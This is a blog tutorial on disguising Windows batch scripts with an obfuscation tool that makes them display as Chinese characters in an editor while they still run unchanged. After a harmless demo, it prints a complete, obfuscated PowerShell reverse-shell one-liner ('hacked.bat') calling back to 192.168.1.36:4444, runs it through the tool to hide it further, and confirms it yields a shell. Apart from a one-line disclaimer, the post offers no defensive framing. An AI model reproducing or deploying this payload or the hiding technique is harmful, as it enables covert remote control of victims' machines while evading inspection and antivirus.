 ```yaml
---
title:  "Batch Obfuscation"
categories: [jekyll]
#tags: [jekyll]
---
```


Hi! We are talking about Batch Obfuscation.

As we know Batch Obfuscation techniques, hackers always using encrypt or hiding their malicious code. We will getting deeply this techniques and talking about Batch Obfuscation.

## What We Need?
Firstly, we need a windows machine for using Batch Obfuscation and secondly we need Batch Obfuscator Framework. İf you don't have a any Batch Obfuscator tool or framework. You can install this resource on your windows machine. It will change every words to Chines words.

``` ruby
https://github.com/BiggerDABOSS/BatchObfuscator
```
If you clone this repository then we can ready to use. Let's test BatchObbuscator!
I want to try on simple batch code. I am creating test.bat file and write this sample code

``` ruby
@echo off
title this is your first batch script.
echo Welcome to batch scripting.
pause
```
Open up a new CMD console, then you can use like this.

``` ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>test.bat
Welcome to batch scripting.
Press any key to continue . . .
The batch file cannot be found.

C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>
```
Let's test what changes in our content using Batch Obfuscator

``` ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>obfuscator.cmd test.bat
Input Length = 14
Output Length = 8
CertUtil: -decode command completed successfully.
testo.bat
test.bat
        1 file(s) copied.
```

If we open new "testo.bat" file with any text editor, we can see Chinese characters!

```ruby
挦獬਍敀档⁯景൦琊瑩敬琠楨⁳獩礠畯⁲楦獲⁴慢捴捳楲瑰മ攊档⁯敗捬浯⁥潴戠瑡档猠牣灩楴杮മ瀊畡敳
```

### Running "testo.bat" in CMD

```ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>testo.bat
```


```ruby
Welcome to batch scripting.
Press any key to continue . . .

```

We can see the same output. That's meaning, Batch Obfuscator is running excellent!

### Real Life Sample

We're see on this sample, Batch Obfuscator tool just chancing every characters to Chinese characters. But nothing chanced on running time.
Then we can say, if I can use for a malicious code nothing will be happened. Let's try and see what happening.
I will use Kali Linux for creating a malicious code. You can create it any way you want. 'Please Just Use For Educational Purpose!'

I' m create malicious code and giving name to 'hacked.bat' then getting reverse shell on CMD. I'm listening on 4444 port.

### hacked.bat

```ruby

cMD.EXe/C"SET  swx=Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient("192.168.1.36",4444));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535^|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2^>^&1 ^| Out-String );Set-Variable -Name sendback2 -Value ($sendback + "PS " + (pwd).Path + "^> ");Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()&& C:\windOws\sySWoW64\WINDOwsPowERSHelL\v1.0\PoWerShEll.EXe     ^&  ( 'Sv'  )  (\"{1}{0}\"-f 'Y3','4' ) (  [tyPE](\"{0}{3}{1}{2}\" -f'eNv','ME','Nt','iroN')   )    ;   (   (  ^&  (  \"{0}{2}{1}\"-f 'c','ItEM','hiLD' )  ( \"{1}{0}{3}{2}\" -f 'BLe','Varia','y3',':4')  ).\"Va`lUe\"::( \"{4}{5}{3}{0}{2}{1}\"-f 'Ia','E','bl','EnvIroNmEntvAR','ge','t'  ).Invoke(  'SWx',(  \"{0}{1}{2}\" -f'Pr','O','cEss'  ))  )^| ^& (   ${ShEL`lId}[1] +${Sh`EL`lID}[13]  + 'x')"

```

Now we can test on 'hacked.bat'. Here is the results:

```ruby
C:\Users\furka\Desktop\batchwrite\BatchObfuscator-master>obfuscator.cmd hacked.bat
Input Length = 14
Output Length = 8
CertUtil: -decode command completed successfully.
hackedo.bat
hacked.bat
        1 file(s) copied.
```

Name is changeced to 'hackedo.bat'. Let's open the file with any text editor.

### hackedo.bat

```ruby
挦獬਍䵣⹄塅⽥≃䕓⁔猠硷匽瑥嘭牡慩汢⁥中浡⁥汣敩瑮ⴠ慖畬⁥丨睥伭橢捥⁴祓瑳浥丮瑥匮捯敫獴吮偃汃敩瑮∨㤱⸲㘱⸸⸱㘳Ⱒ㐴㐴⤩医瑥嘭牡慩汢⁥中浡⁥瑳敲浡ⴠ慖畬⁥␨汣敩瑮䜮瑥瑓敲浡⤨㬩扛瑹孥嵝戤瑹獥㴠〠⸮㔶㌵帵╼ほ㭽桷汩⡥匨瑥嘭牡慩汢⁥中浡⁥嘭污敵⠠猤牴慥⹭敒摡␨祢整ⱳ〠戤瑹獥䰮湥瑧⥨⤩ⴠ敮〠笩医瑥嘭牡慩汢⁥中浡⁥慤慴ⴠ慖畬⁥⠨敎⵷扏敪瑣ⴠ祔数慎敭匠獹整⹭敔瑸䄮䍓䥉湅潣楤杮⸩敇却牴湩⡧戤瑹獥〬椤⤩医瑥嘭牡慩汢⁥中浡⁥敳摮慢正ⴠ慖畬⁥椨硥␠慤慴㈠㹞♞‱籞传瑵匭牴湩㬩敓⵴慖楲扡敬ⴠ慎敭猠湥扤捡㉫ⴠ慖畬⁥␨敳摮慢正⬠∠卐∠⬠⠠睰⥤倮瑡帢‾⤢医瑥嘭牡慩汢⁥中浡⁥敳摮祢整ⴠ慖畬⁥⠨瑛硥⹴湥潣楤杮㩝䄺䍓䥉⸩敇䉴瑹獥␨敳摮慢正⤲㬩猤牴慥⹭牗瑩⡥猤湥扤瑹ⱥⰰ猤湥扤瑹⹥敌杮桴㬩猤牴慥⹭汆獵⡨紩␻汣敩瑮䌮潬敳⤨☦䌠尺楷摮睏屳祳坓坯㐶坜义佄獷潐䕷卒效䱬癜⸱尰潐敗卲䕨汬䔮敘††帠…⠠✠癓‧⤠†尨笢紱ほ屽ⴢ大✳✬✴⤠⠠†瑛偹嵅尨笢細㍻筽紱㉻屽•昭攧癎Ⱗ䴧❅✬瑎Ⱗ椧潲❎††㬠†⠠†⠠†♞†尠笢細㉻筽紱≜昭✠❣✬瑉䵅Ⱗ栧䱩❄⤠†≜ㅻ筽細㍻筽紲≜ⴠ䈧敌Ⱗ嘧牡慩Ⱗ礧✳✬㐺⤧†⸩≜慖池敕≜㨺≜㑻筽紵㍻筽細㉻筽紱≜昭✠慉Ⱗ䔧Ⱗ戧❬✬湅䥶潲济湅癴剁Ⱗ朧❥✬❴†⸩湉潶敫✠坓❸⠬†≜ほ筽紱㉻屽•昭倧❲✬❏✬䕣獳‧⤠⤠籞帠…†笤桓䱅池摉孽崱⬠笤桓䕠恌䥬組ㅛ崳†砧⤧•††††††††††††††††††††††††††††††††††††††††
```

We are see the Chinese characters. If I run the 'hacked.bat' I can get a reverse shell on CMD.

Thanks for reading, I hope you learned something.
